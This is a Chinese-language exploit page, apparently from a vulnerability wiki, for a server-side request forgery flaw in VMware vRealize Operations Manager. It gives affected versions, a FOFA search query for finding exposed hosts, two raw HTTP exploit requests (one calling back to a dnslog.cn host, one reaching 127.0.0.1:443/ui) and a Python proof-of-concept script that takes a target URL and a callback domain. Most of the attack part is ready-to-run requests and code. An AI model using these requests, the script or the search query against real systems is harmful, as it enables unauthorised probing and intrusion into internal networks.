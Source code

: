 <languages  />

漏洞影響
--------

    vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0

    cloud_foundation: 4.x 3.x

    vRealize_suite_lifecycle_manager: 8.x

FOFA
----

    title="vRealize Operations Manager"

漏洞利用
--------

發送如下請求包:

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["eheeyd.dnslog.cn"]

    POST /casa/nodes/thumbprints HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Type: application/json;charset=UTF-8
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Content-Length: 24


    ["127.0.0.1:443/ui"]

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: VMware vRealize Operations Manager                         \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mDnslog      >>> xxx.dnslog.com                                     \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url, v):
        vuln_url = target_url + "/casa/nodes/thumbprints"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/json;charset=UTF-8"
        }
        data = '["{}"]'.format(Dnslog)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
            if response.status_code == 200 :
                print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
            else:
                print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
        Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
        POC_1(target_url, Dnslog)

參考
----

<https://mp.weixin.qq.com/s/fAYvOdmZO-daxe5FUI8wQA>